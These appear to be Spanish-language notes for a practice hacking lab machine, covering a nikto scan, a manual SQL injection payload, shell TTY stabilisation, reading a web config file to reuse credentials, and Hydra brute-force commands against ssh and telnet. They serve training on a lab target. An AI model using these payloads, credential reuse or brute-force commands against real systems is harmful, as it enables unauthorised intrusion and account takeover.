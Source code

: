 
# Maquina 2 (Virtual Hosting, inyección SQL, SQLMap y File Upload)

# Nikto

`Escaneo simple de nikto:
nikto -url http://doc.hmv

# SQLi

`Usos de SQLi manual
' OR 1=1;-- -

# Tratamiento de la tty

script /dev/null -c bash
Ctrl + Z
stty raw -echo;fg
reset
xterm
export SHELL=bash TERM=xterm

`ver y proporcionar valores de filas y columnas:
stty -a (maquina propia en nueva shell, ver numero de filas y columnas)
stty rows 40 columns 157

# Pivotar de usuarios con archivo config

cd /var/www/html/nombredelaweb/
ls -la
cat initialize.php
reutilizamos las credenciales para pivotar de usuario
# Hydra
### Fuerza bruta con Hydra

Es posible que en algún momento necesites hacer un ataque de fuerza bruta a un servicio, como ssh, FTP, etc.

```
hydra -L usuarios.txt -P contraseña.txt "ip" ssh -s 22
hydra -L usuarios.txt -P contraseña.txt telnet://"ip" 
```

- -L: Indica el archivo donde se encuentran los posibles usuarios.
- -P: Indica el archivo donde se encuentran las posibles contraseñas.
- -s: Indica el puerto destino, en este caso al ser ssh, el puerto 22.
